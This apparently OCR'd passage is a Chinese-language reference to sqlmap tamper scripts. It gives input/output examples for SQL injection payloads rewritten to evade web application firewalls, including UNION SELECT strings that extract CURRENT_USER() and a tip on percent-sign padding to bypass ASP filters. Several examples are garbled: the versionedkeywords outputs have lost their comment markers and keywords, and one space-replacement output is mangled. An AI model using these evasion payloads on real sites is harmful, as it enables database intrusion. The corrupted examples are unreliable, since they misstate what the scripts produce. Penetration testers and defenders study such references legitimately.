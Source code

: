   Example:

* Input: SELECT id FROM users
* Output: SELECTidFROM?users
  Requirement:
* MySQL

##### space2mysqldash.py 以单行注释和新行替换空格

  Example:
* Input: 1 AND 9227=9227
* Output: 1-- AND-- 9227=9227
  Requirement:
* MySQL
* MSSQL

##### space2plus.py 以“+”替换空格

  Example:
* Input: SELECT id FROM users
* Output: SELECT+id+FROM+users

##### space2randomblank.py 随机空白字符替换空格

  Example:
* Input: SELECT id FROM users
* Output: SELECT\rid\tFROM\nusers

##### unionalltounion.py 以“union all”替换“union”

  Example:
* Input: -1 UNION ALL SELECT
* Output: -1 UNION SELECT

##### unmagicquotes.py 以“?'”替换单引号，并在结尾添加注释“--”

  Example:
* Input: 1' AND 1=1
* Output: 1?' AND 1=1--

##### versionedkeywords.py 对不是函数的关键字条件注释

  Example:
* Input: 1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,100,114,117,58))#
* Output: 1,,CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER()),CHAR(32)),CHAR(58,100,114,117,58))#
  Requirement:
* MySQL

##### versionedmorekeywords.py 对关键字条件注释

  Example:
* Input: 1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,122,114,115,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,115,114,121,58))#
* Output: 1,,((58,122,114,115,58),(CAST(()),(32)),(58,115,114,121,58))#
  Requirement:
* MySQL >= 5.1.13


  如果web应用使用asp/asp.net开发，charunicodeencode.py和percentage.py可以帮助你逃避Waf的检测。
  有意思的是，asp允许在字符之间使用多个%号间隔，比如 AND 1=%%%%%%%%1 是合法的！
